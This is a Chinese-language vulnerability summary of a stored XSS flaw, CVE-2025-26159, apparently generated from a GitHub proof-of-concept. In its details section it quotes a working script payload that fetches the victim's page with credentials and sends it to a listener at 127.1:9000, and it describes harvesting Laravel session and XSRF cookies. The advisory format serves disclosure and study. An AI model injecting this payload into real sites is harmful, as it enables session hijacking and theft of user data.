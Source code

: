 ## CVE-2025-26159

**漏洞编号:** CVE-2025-26159

**漏洞类型:** 跨站脚本攻击 (XSS)

**影响应用:** 未明确指定，但根据利用方式推测可能为允许用户创建标签的Web应用，例如博客或论坛

**危害等级:** 中危，可能导致会话劫持、信息泄露

**影响版本:** 未明确指定

**利用条件:** 需要用户访问包含恶意XSS代码的页面

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

根据搜索结果和提供的漏洞利用代码，CVE-2025-26159是一个XSS漏洞。漏洞利用方式为：

1.  攻击者在允许创建标签的Web应用中插入恶意JavaScript代码，具体为`<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>`。
2.  当其他用户访问包含该恶意标签的页面时，JavaScript代码会被执行。
3.  该代码会获取当前页面的所有Cookie，并通过GET请求将Cookie发送到攻击者控制的服务器（127.0.0.1:9000）。
4.  POC代码在本地启动一个TCP服务器监听9000端口，接收包含编码后Cookie的请求，解码并过滤其中的`laravel_starter_session`和`XSRF-TOKEN` Cookie，去重后输出。

**有效性：**
提供的POC代码是有效的，可以用于演示和复现该XSS漏洞，并提取用户的Cookie。

**投毒风险：**
代码本身主要功能是监听端口、解码URL和提取Cookie。虽然没有明显的恶意代码，但需要注意以下几点：

*   代码中硬编码了攻击者服务器的IP地址和端口，如果攻击者更改服务器地址，可能导致漏洞利用失败。
*   代码可能会被修改，添加额外的恶意功能，例如：
    *   收集其他敏感信息。
    *   执行其他恶意操作，例如页面跳转、恶意下载等。
    *   将收集到的数据发送到多个服务器。
*   README.md中包含一个外部链接，存在潜在的链接被篡改的风险。

综合评估，投毒风险较低，约为10%，主要集中在代码被修改或README链接被篡改的可能性上。

**利用方式总结：**
该漏洞的利用方式为存储型XSS，攻击者通过在Web应用中插入恶意JavaScript代码，当其他用户访问包含该代码的页面时，恶意代码会被执行，从而窃取用户的Cookie。这可以用于会话劫持或其他恶意目的。

**项目地址:** [godBADTRY/CVE-2025-26159](https://github.com/godBADTRY/CVE-2025-26159)

**漏洞详情:** [CVE-2025-26159](https://nvd.nist.gov/vuln/detail/CVE-2025-26159)